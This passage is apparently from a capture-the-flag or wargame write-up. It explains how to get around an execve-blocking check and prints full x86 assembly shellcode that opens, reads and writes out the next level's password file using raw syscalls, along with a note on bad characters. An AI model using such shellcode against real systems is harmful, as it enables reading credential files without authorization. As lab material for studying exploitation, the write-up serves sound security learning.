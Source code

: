 > If the child process used syscall `execve()`, `puts("no exec() for you")` and `kill(0x9, pid)`.

- Let's build our shellcode, be careful with [bad characters](https://www.google.com/search?q=shellcode+bad+characters&sca_esv=580628691&rlz=1C1ONGR_frFR1081FR1081&sxsrf=AM9HkKkygoTr1Zqor0isLzJgYKQ9t8VEvQ%3A1699483861071&ei=1RBMZdiABOqmkdUP5c-qoAw&ved=0ahUKEwiYv9zevrWCAxVqU6QEHeWnCsQQ4dUDCBA&uact=5&oq=shellcode+bad+characters&gs_lp=Egxnd3Mtd2l6LXNlcnAiGHNoZWxsY29kZSBiYWQgY2hhcmFjdGVyczIEECMYJzIIEAAYywEYgAQyBhAAGBYYHjIGEAAYFhgeMgYQABgWGB5IvQRQyANYyANwAHgCkAEAmAE-oAE-qgEBMbgBA8gBAPgBAcICBBAAGEfiAwQYACBBiAYBkAYF&sclient=gws-wiz-serp#ip=1) (0x00, 0x0a, ...):
```asm
start:
        and    $0xfffffff0,%esp
        sub    $0x40,%esp

        xor    %eax,%eax
        add    $0x73,%eax
        mov    %eax,0x18(%esp)
        movl   $0x7361702e,0x14(%esp)
        movl   $0x2f35306c,0x10(%esp)
        movl   $0x6576656c,0xc(%esp)
        movl   $0x2f737265,0x8(%esp)
        movl   $0x73752f65,0x4(%esp)
        movl   $0x6d6f682f,(%esp)

        mov    %esp,%ebx
        xor    %ecx,%ecx
        xor    %edx,%edx
        xor    %eax,%eax
        add    $0x5,%eax
        int    $0x80

        mov    %eax,%ebx
        mov    %esp,%ecx
        xor    %edx,%edx
        add    $0x28,%edx
        xor    %eax,%eax
        add    $0x3,%eax
        int    $0x80

        xor    %ebx,%ebx
        add    $0x1,%ebx
        mov    %esp,%ecx
        xor    %edx,%edx
        add    $0x28,%edx
        xor    %eax,%eax
        add    $0x4,%eax
        int    $0x80

        xor    %ebx,%ebx
        xor    %eax,%eax
        add    $0x1,%eax
        int    $0x80
```
> This should open/read "/home/users/level05/.pass" and write it to stdout using syscalls.
